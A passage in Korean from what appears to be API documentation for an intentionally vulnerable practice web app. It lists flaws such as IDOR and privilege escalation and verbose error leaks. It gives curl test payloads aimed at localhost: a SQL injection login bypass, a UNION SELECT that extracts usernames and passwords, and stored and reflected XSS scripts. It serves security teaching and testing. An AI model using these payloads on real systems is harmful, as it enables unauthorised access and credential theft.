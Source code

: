 ### POST /api/admin/users/{id}/role
사용자 권한 변경

**취약점**:
- 권한 상승 가능
- IDOR 취약점

---

## 🚨 에러 응답

### 일반적인 에러 형식
```json
{
  "success": false,
  "error": "Database connection failed",
  "details": {
    "stack": "Error: connection refused\n    at Database.connect (/app/db.js:45:12)",
    "query": "SELECT * FROM users WHERE id = '1' OR 1=1 --'",
    "file": "/app/controllers/userController.js",
    "line": 23
  }
}
```

**취약점**:
- 상세한 스택 트레이스 노출
- 데이터베이스 쿼리 노출
- 파일 경로 및 라인 번호 노출

---

## 🧪 보안 테스트 예제

### SQL Injection 테스트
```bash
# 로그인 우회
curl -X POST http://localhost:5000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\''--","password":"anything"}'

# 검색에서 데이터 추출
curl "http://localhost:5000/api/products?search=' UNION SELECT 1,username,password,4,5,6,7 FROM users --"
```

### XSS 테스트
```bash
# Stored XSS (댓글)
curl -X POST http://localhost:5000/api/products/1/comments \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <token>" \
  -d '{"content":"<script>alert('\''XSS'\'')</script>"}'

# Reflected XSS (검색)
curl "http://localhost:5000/api/search?q=<script>alert('XSS')</script>"
```
